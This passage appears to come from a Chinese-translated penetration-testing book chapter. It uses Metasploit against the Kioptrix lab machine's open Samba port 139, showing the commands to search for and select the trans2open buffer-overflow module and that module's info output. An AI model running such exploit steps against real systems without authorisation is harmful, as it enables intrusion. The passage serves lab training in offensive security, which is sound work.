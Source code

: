 当查看这些端口时，我们发现以前被利用的 samba 端口 139 仍然处于打开状态。现在是时候看看我们可以做什么，而不必重新格式化攻击代码。

```
msf> search samba 

```

这导致：

![Using Metasploit to exploit Kioptrix](graphics/7744_04_13.jpg)

*   Name：一旦我们决定尝试哪种利用，Name 列将与 USE 命令关联使用。
*   披露：披露日期是向社区或供应商披露该漏洞的实际日期，而不是发布概念验证代码的日期。
*   等级：等级非常重要，因为它表明已知利用漏洞的可靠性。
*   描述很好地描述了该漏洞的类型。

我们将使用 `trans2open`漏洞，因为它与我们在本章前面手动执行的类似。在 `msfconsole`类型中：

```
msf > use exploit/linux/samba/trans2open 

```

当需要关于利用漏洞的更多信息时，我们可以使用 `info`命令接收以下输出：

```
msf exploit(trans2open) > info 

```

```
Name: Samba trans2open Overflow (Linux x86)
Module: exploit/linux/samba/trans2open
Version: 12196
Platform: Linux
Privileged: Yes
License: Metasploit Framework License (BSD)
Rank: Great
Provided by:
hdm <hdm@metasploit.com>
jduck <jduck@metasploit.com>
Available targets:
Id Name
-- ----
0 Samba 2.2.x - Bruteforce
Basic options:
Name Current Setting Required Description
---- --------------- -------- -----------
RHOST yes The target address
RPORT 139 yes The target port
Payload information:
Space: 1024
Avoid: 1 characters
Description:
This exploits the buffer overflow found in Samba versions 2.2.0 to
2.2.8\. This particular module is capable of exploiting the flaw on
x86 Linux systems that do not have the noexec stack option set.
NOTE: Some older versions of RedHat do not seem to be vulnerable
since they apparently do not allow anonymous access to IPC.
References:
http://cve.mitre.org/cgi-bin/cvename.cgi?name=2003-0201
http://www.osvdb.org/4469
http://www.securityfocus.com/bid/7294
http://seclists.org/bugtraq/2003/Apr/103

```
